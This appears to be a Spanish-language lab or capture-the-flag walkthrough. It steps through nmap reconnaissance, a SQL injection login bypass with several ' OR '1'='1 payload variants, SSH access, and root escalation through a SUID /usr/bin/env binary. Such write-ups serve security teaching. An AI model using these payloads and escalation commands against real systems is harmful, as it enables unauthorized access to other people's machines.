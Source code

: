 ## 1. Reconocimiento de Puertos con Nmap
Usamos `nmap` para detectar puertos abiertos y versiones de servicios:

```bash
sudo nmap <IP_DEL_OBJETIVO>
nmap -sV -p 22,80 <IP_DEL_OBJETIVO>
```

Servicios Identificados:

| PUERTO | SERVICIO | VERSIÓN             |
| ------ | -------- | ------------------- |
| 22/tcp | ssh      | OpenSSH 8.9p1       |
| 80/tcp | http     | Apache httpd 2.4.52 |

Esto nos indica que hay un servidor SSH y una aplicación web Apache, siendo esta última el probable punto de entrada para la inyección.
## 2. Explotación: Inyección SQL

Accedemos a la aplicación web en el puerto 80, que presenta un formulario de inicio de sesión.
### 2.1. Detección de Inyección SQL
Para verificar si la aplicación es vulnerable a inyección SQL, introducimos una comilla simple (`‘`) en el campo de contraseña:

*   **Usuario:** `user`
*   **Contraseña:** `‘`

Si la aplicación es vulnerable, un mensaje de error de sintaxis SQL confirmará la vulnerabilidad y el tipo de base de datos (ej. MariaDB):

```
SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
```

### 2.2. Bypass de Autenticación

Con la vulnerabilidad confirmada, podemos usar un payload para saltar la autenticación. El payload `‘ OR ‘1’=’1` manipula la consulta SQL para que siempre sea verdadera.

*   **Usuario:** `cualquier cosa`
*   **Contraseña:** ‘ OR ‘1’=’1

Tambien funciona:

User:' OR '1'='1'-- Pasword: cualquier cosa
User:' OR '1'='1'# Pasword: cualquier cosa
User:admin’ or 1=1— - Pasword: cualquier cosa

**Cómo funciona:**
La consulta original (ej. `SELECT * FROM users WHERE username = 'user' AND password = 'pass';`) se transforma en:

```sql
SELECT * FROM users WHERE username = 'cualquier cosa' AND password = '' OR '1'='1';
```

Dado que `‘1’='1'` es siempre verdadero, la condición `OR` hace que toda la cláusula `WHERE` sea verdadera, permitiendo el acceso. Otras variaciones como `‘ OR ‘1’='1'--` o `admin’ or 1=1— -` también funcionan.
## 3. Acceso Inicial vía SSH

Una vez obtenido un nombre de usuario (ej. "Dylan") a través del bypass de autenticación, intentamos acceder al sistema vía SSH:

```bash
ssh dylan@< IP_DEL_OBJETIVO >
```

El comando `whoami` confirmará el usuario actual.
## 4. Escalada de Privilegios
El objetivo es obtener privilegios de `root` buscando configuraciones erróneas.
### 4.1. Búsqueda de Binarios SUID

Buscamos archivos con el bit SUID habilitado que pertenecen a `root`. Estos archivos se ejecutan con los permisos de su propietario, lo que puede ser explotado.

```bash
find / -perm -4000 -user root 2>/dev/null
```

**salida**
```bash
/usr/lib/openssh/ssh-keysign 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper 
/usr/bin/mount 
/usr/bin/gpasswd 
/usr/bin/chfn 
/usr/bin/env ← 
/usr/bin/su
/usr/bin/newgrp 
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
```
Un binario común para explotar es `/usr/bin/env`.
### 4.2. Explotación de `env` (GTFOBins)

Consultamos [GTFOBins](https://gtfobins.github.io/) para encontrar cómo explotar `env`. La técnica es ejecutar `env` con un shell y el flag `-p` para mantener los privilegios de `root`:

```bash
/usr/bin/env /bin/sh -p
```

El flag `-p` asegura que el shell (`/bin/sh`) se ejecute con los permisos del propietario de `env` (que es `root`).

`whoami` muestra `root`.
